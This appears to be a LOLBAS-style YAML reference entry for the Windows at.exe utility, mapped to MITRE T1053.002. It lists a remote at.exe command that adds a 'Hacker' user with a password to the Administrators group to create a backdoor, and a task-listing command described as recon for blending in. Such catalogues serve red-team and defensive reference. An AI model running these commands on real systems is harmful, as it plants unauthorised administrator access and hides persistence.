 ```yaml
---
Name: at.exe
Description: Schedules commands and programs to run on a computer at a specified time and date
Updated: 2023-07-01
Toolsets:
  - Builtin
Commands:
  - Command: 'at.exe \\W10.ad.bitsadmin.com 06:00 cmd /c "net user Hacker H4ck#rt /add & net localgroup Administrators Hacker /add"'
    Description: Execute task
    Usecases:
      - Create backdoor user or launch implant
    Function: Execute
    Comments:
    MitreAttack:
      - T1053.002
  - Command: at.exe \\W10.ad.bitsadmin.com
    Description: List tasks
    Usecases:
      - List current tasks to identify a name that can be used for a new task to blend in
    Function: Recon
    Comments:
    MitreAttack:
      - T1053.002
Resources:
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```

